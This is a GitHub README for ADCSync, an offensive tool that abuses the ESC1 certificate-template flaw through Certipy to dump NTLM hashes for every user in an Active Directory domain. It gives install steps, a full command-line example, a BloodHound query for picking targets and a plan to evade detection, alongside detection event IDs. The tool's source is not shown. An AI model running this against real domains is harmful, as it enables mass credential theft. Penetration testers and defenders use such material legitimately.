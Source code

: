 # ADCSsync

This is a tool I whipped up together quickly to DCSync utilizing ESC1. It is quite slow but otherwise an effective means of performing a makeshift DCSync attack without utilizing [DRSUAPI](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync) or [Volume Shadow Copy](https://book.hacktricks.xyz/windows-hardening/stealing-credentials#volume-shadow-copy). 

This is the first version of the tool and essentially just automates the process of running Certipy against every user in a domain. It still needs a lot of work and I plan on adding more features in the future for authentication methods and automating the process of finding a vulnerable template.

## Fork Update

This fork supports proxychains, both bloodhound formats such as raw users.json from SharpHound.exe or manually exported JSON from the old BloodHound.
It will also skip accounts that it already got hashes from and resume where you left off if you get disconnected for whatever reason during runtime.
Various other nice to haves.
There are multiple scripts, adcsync.py is single-threaded. The ADCSync_multi_.py files are all multi-threaded with 10 workers by default using Python's ThreadPoolExecutor.
This also supports the -sid flag in Certipy which is now required for ESC1.
You can choose which users you want to target. Export whatever custom BloodHound neo4j query results to a JSON file that contains the desired accounts.
For example:

```sql
MATCH p = (d:Domain {name: "AD.CORP.LOCAL"})-[r:Contains*1..]->(u:User) WHERE NOT u.name starts with 'KRBTGT' RETURN u
```

## Introduction

ADCSync uses the ESC1 exploit to dump NTLM hashes from user accounts in an Active Directory environment. The tool will first grab every user and domain in the Bloodhound dump file passed in. Then it will use Certipy to make a request for each user and store their PFX file in the certificate directory. Finally, it will use Certipy to authenticate with the certificate and retrieve the NT hash for each user. This process is quite slow and can take a while to complete but offers an alternative way to dump NTLM hashes. 


## Installation

```
git clone https://github.com/mr-pmillz/ADCSync.git
cd ADCSync
virtualenv -p python3 venv
source venv/bin/activate
python3 -m pip install -r requirements.txt
```

## Usage

To use this tool we need the following things:

1. Valid Domain Credentials
2. A user list from a bloodhound dump that will be passed in.
3. A template vulnerable to ESC1 (Found with Certipy find)


```shell
# python3 ADCSync_multi_log_full_with_retry.py --help

usage: ADCSync_multi_log_full_with_retry.py [-h] -f FILE -o OUTPUT -ca-name CA_NAME -dc-ip DC_IP -dc-fqdn DC_FQDN -u USER -p PASSWORD -template TEMPLATE -target TARGET [-debug] [-proxychains]

Retrieve NTLM hashes via ADCS ESC1 technique.

options:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  Input User List JSON file from Bloodhound
  -o OUTPUT, --output OUTPUT
                        NTLM Hash Output file
  -ca-name CA_NAME      Certificate Authority
  -dc-ip DC_IP          IP Address of Domain Controller
  -dc-fqdn DC_FQDN      FQDN of Domain Controller
  -u USER, --user USER  Username
  -p PASSWORD, --password PASSWORD
                        Password
  -template TEMPLATE    Template Name vulnerable to ESC1
  -target TARGET        CA FQDN
  -debug                Show verbose debugging information
  -proxychains          Use proxychains4
```

Example command:

```shell
python3 ADCSync_multi_log_full_with_retry.py -f all-ad.corp.local-users.json \
-o dcsync.txt \
-ca-name FOO-CA \
-dc-ip 10.10.10.10 \
-dc-fqdn cool-dc1.ad.corp.local \
-u 'coolbeans@ad.corp.local' \
-p 'PASSWORDHERE' \
-template VULN-ESC1-TEMPLATE-NAME \
-target CA-FQDN.ad.corp.local \
-proxychains \
-debug
```

## Detection

* Event ID 4898: This event is generated every time a certificate template is loaded during enrollment. It records - in detail - the properties and security descriptor of the certificate template.
* Event ID 4887: This event is generated when a certificate is successfully issued to a user.
* Event ID 4888: This event is generated when a certificate request is denied.

## TODO

* Support alternative authentication methods such as NTLM hashes and ccache files
* Automatically run "certipy find" to find and grab templates vulnerable to ESC1
* Add jitter and sleep options to avoid detection
* Add type validation for all variables


## Acknowledgements

* [puzzlepeaches](https://github.com/puzzlepeaches): Telling me to hurry up and write this
* [ly4k](https://github.com/ly4k/Certipy): For Certipy
* [WazeHell](https://github.com/WazeHell/vulnerable-AD): For the script to set up the vulnerable AD environment used for testing
